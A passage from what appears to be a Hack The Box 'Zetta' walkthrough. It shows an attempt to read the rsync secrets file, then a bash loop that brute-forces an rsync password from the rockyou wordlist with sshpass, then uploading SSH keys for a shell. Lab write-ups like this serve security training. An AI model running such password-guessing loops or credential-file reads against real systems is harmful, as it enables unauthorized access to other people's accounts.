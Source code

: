 Unfortunately I can't get access to the secrets file `/etc/rsyncd.secrets`:

```
root@kali:~/htb/zetta/tmp# rsync rsync://zetta.htb:8730/etc/rsyncd.secrets .
[]...]
rsync: send_files failed to open "/rsyncd.secrets" (in etc): Permission denied (13)
rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1677) [generator=3.1.3]
```

I'll try to bruteforce the password by using a simple bash loop. I use the `sshpass` program to pass the password to the interactive logon:

```sh
#!/bin/bash

for p in $(cat /opt/SecLists/Passwords/Leaked-Databases/rockyou-10.txt)
do
    sshpass -p $p rsync -q rsync://roy@zetta.htb:8730/home_roy
    if [[ $? -eq 0 ]]
    then
        echo "Found password: $p"
        exit
    fi
done
```

After a few seconds I'm able to recover the password: `computer`

![](/assets/images/htb-writeup-zetta/brute.png)

### Getting a shell

The password works and I can access roy's home directory:

![](/assets/images/htb-writeup-zetta/shell1.png)

The password `computer` doesn't work over SSH (since rsync uses a separate authentication database), but I can just upload my SSH keys and then SSH in.

![](/assets/images/htb-writeup-zetta/shell2.png)

### Privesc

The home directory contains a data file for the `tudu` application:

> TuDu is a commandline tool to manage hierarchical TODO lists, so that you can organize everything you have to do in a simple and efficient way. It does not use any database backend, but plain XML files.

![](/assets/images/htb-writeup-zetta/root1.png)

The tudu file contains a couple of hints:

![](/assets/images/htb-writeup-zetta/root2.png)
